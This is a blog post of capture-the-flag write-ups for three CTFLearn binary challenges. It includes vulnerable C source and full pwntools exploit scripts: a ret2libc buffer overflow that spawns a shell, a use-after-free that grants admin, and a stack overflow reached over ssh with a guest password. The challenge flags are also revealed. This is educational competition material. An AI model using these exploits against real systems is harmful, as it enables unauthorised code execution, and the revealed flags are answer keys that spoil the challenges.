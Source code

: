 +++
title = "CTFLearn Binary"
date = 2022-02-19
description = "Here's some writeups from the binary category on ctflearn.com/"
+++

### Table of Contents:

<div class="toc">

- [Shell Time!](#shell-time)
- [Poor Login](#poor-login)
- [Blackbox](#blackbox)


</div>

<center>

## Shell Time!

</center>

```
nc thekidofarcrania.com 4902
```

In a previous challenge, RIP my BOF, we were given the binary for the server and bof2.c. Whereas RIP my BOF needed flag.txt and wanted us to overwrite the instruction pointer with the address of win(), Shell Time! wants us to find flag2.txt. 


Source:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

// Defined in a separate source file for simplicity.
void init_visualize(char* buff);
void visualize(char* buff);

void win() {
  system("/bin/cat /flag.txt");
}

void vuln() {
  char padding[16];
  char buff[32];

  memset(buff, 0, sizeof(buff)); // Zero-out the buffer.
  memset(padding, 0xFF, sizeof(padding)); // Mark the padding with 0xff.

  // Initializes the stack visualization. Don't worry about it!
  init_visualize(buff); 

  // Prints out the stack before modification
  visualize(buff);

  printf("Input some text: ");
  gets(buff); // This is a vulnerable call!

  // Prints out the stack after modification
  visualize(buff); 
}

int main() {
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  vuln();
}

```

I first leaked the address of puts. 

```python
payload = b'a'*(60) + p32(elf.plt['puts']) + p32(elf.symbols['main']) + p32(elf.got['puts'])
```

Once I had the address, I used https://libc.rip/ to leak the address of libc. With this, I then got the addresses for system and /bin/sh.

```
libc_addr = puts_addr - 0x67b40
system_addr = libc_addr + 0x3d200
bin_sh_addr = libc_addr + 0x17e0cf
```

I then sent the second payload (junk + system + junk + binsh), and from there, I got the shell and cat out flag2.txt

Solve:

```python
from pwn import *

elf = context.binary = ELF('./server')
p = remote("thekidofarcrania.com", 4902)

p.recvuntil(b"text:")

# Leaks the address of puts
payload = b'a'*(48+12) + p32(elf.plt['puts']) + p32(elf.symbols['main']) + p32(elf.got['puts'])
p.sendline(payload)

p.recvuntil(b"address: ")
p.recvline()
p.recvline()
puts_addr = u32(p.recv(4))

# Once we have the address of puts, we can leak libc

libc_addr = puts_addr - 0x67b40
system_addr = libc_addr + 0x3d200
bin_sh_addr = libc_addr + 0x17e0cf

p.recvuntil(b"text: ")
payload = b'a'*(48+12) + p32(system_addr) + p32(0) + p32(bin_sh_addr)
p.sendline(payload)

# We now have a shell
p.sendline(b'cat flag2.txt')

p.interactive()
```

<details>
  <summary id="reveal-flag">Reveal Flag</summary>
  <p id="flag">CTFlearn{c0ngrat1s_0n_th1s_sh3ll!_SKDJLSejf}</p>
</details>

___

<center>

## Poor Login

</center>

h e a p 

<details>
  <summary id="source">View Source</summary>
  
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int menu() {
  printf("*** WINBLOWS LOGIN *********\n"
      "1. Login into user.\n"
      "2. Sign out.\n"
      "3. Print flag.\n"
      "4. Lock user.\n"
      "5. Restore user.\n"
      "> ");
  
  int resp = 0;
  scanf("%d", &resp);
  while (getchar() != '\n');
  return resp;
}

struct creds {
  void *padding;
  char name[32];
  int admin;
};


struct creds *curr;
struct creds *save;

char *fake_flag;

int main() {
  char buff[64];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);

  while (1) {
    switch (menu()) {
      case 1:  // Login
        curr = malloc(sizeof(*curr));

        printf("Username: ");
        fgets(curr->name, sizeof(curr->name), stdin);
        strtok(curr->name, "\n");

        curr->admin = 0; 
        break;
      case 2: // Sign out
        if (!curr) {
          puts("You are not logged in!");
          break;
        }
        free(curr);
        curr = NULL;
        puts("You have been successfully logged out.");
        break;
      case 3: // Print flag
        if (curr && curr->admin) {
          puts("Here's your flag:");
          system("/bin/cat /flag.txt");
        } else {
          if (!fake_flag) {
            puts("You are not admin. Would you like to create a new flag instead?");
            fgets(buff, sizeof(buff), stdin);
            fake_flag = strdup(buff);
          }
          printf("Here's your flag: %s", fake_flag);
        }
        break;
      case 4: // Lock user
        if (curr == NULL) {
          puts("You are not logged in!");
          break;
        }

        puts("User has been locked now.");
        save = curr; 
        break;
      case 5: // Restore user
        if (curr != NULL) {
          puts("You are already logged. Sign out first!");
        } else if (save == NULL) {
          puts("No user is currently locked!");
        } else {
          printf("Welcome back, %s!\n", save->name);
          curr = save;
          save = NULL;
        }
        break;
      default:
        puts("Invalid choice");
    }
  }
}
```
</details>

After seeing free and malloc, I figured it was use after free time 😎

```python
from pwn import *

# nc thekidofarcrania.com 13226

p = remote("thekidofarcrania.com", 13226)
# p = process('./login')

p.sendline(b'1')  # sends username  
p.sendline(b'username')

p.sendline(b'4') # locks user

p.sendline(b'2') # signs out 
# signing out frees curr 

p.sendline(b'3') # make a fakeflag

# creds buffer = 32 
p.sendline(b'a'*39 + b'1') # send fakeflag
# 1 at the end so we set 1 for admin

p.sendline(b'5') # restores user

p.sendline(b'3') # prints flag

p.interactive()
```

<details>
  <summary id="reveal-flag">Reveal Flag</summary>
  <p id="flag">CTFlearn{I_sh0uldve_done_a_ref_counter!!_:PPPPP}</p>
</details>

___

<center>

## Blackbox

</center>

```
ssh blackbox@104.131.79.111 -p 1001
```

Once we ssh, we can see a binary named blackbox and flag.txt. We don't have permission to read flag.txt, and if we run the binary we are greeted with this:

```
What is 1 + 1 =
```

And if we try to answer 2, we see something like this:

```
What is 1 + 1 = 2
No dummy... 1 + 1 != 0...
```

So, how do we get it to not say "1 + 1 != 0..."?

I honestly solved this challenge with trial and error. I first tried to find the buffer, and once I was able to see how I could modify values, I adjusted so that 1 + 1 would be set to 2. 

```python
from pwn import *

s = ssh('blackbox', '104.131.79.111', port=1001, password='guest')
sh = s.run('sh')

sh.sendline(b'./blackbox')

sh.sendline(b'a'*80 + p32(2))

# trial and error time 
# b'a'*81 => 1 + 1 != 97
# b'a'*88 => 1 + 1 != 1633771873
# b'a'*89 => stack smashing detected

sh.recvline()
log.success('Flag: ' + sh.recvline().decode("utf-8"))
```

<details>
  <summary id="reveal-flag">Reveal Flag</summary>
  <p id="flag">flag{0n3_4lus_1_1s_Tw0_dumm13!!}</p>
</details>